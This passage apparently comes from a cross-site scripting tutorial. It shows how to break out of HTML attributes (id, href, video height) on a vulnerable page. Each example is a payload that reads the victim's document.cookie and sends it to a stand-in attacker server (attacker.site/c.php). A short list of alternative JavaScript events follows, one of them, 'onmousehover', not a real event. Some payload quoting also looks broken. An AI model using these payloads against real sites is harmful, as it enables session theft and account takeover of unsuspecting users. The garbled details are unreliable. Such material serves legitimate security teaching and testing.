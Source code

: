 ```
<lalala> 
```


#### 1.3. Injecting into HTML attributes

##### a) id

For instance, this injection endpoint (INJ):

```html
<div id="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


##### b) href

For instance, this injection endpoint (INJ):

```html
<a href="victim.site/#INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```

##### c) height

For instance, this injection endpoint (INJ):

```html
<video  width="320" height="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
240" src=x onerror="new Audio().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


**1.** One nice technique is using non-common javascript events.

```
# The usual payloads contains these events:
alert()
confirm()
prompt()

# Try others:
onload()
onerror()
onmousehover
...
```
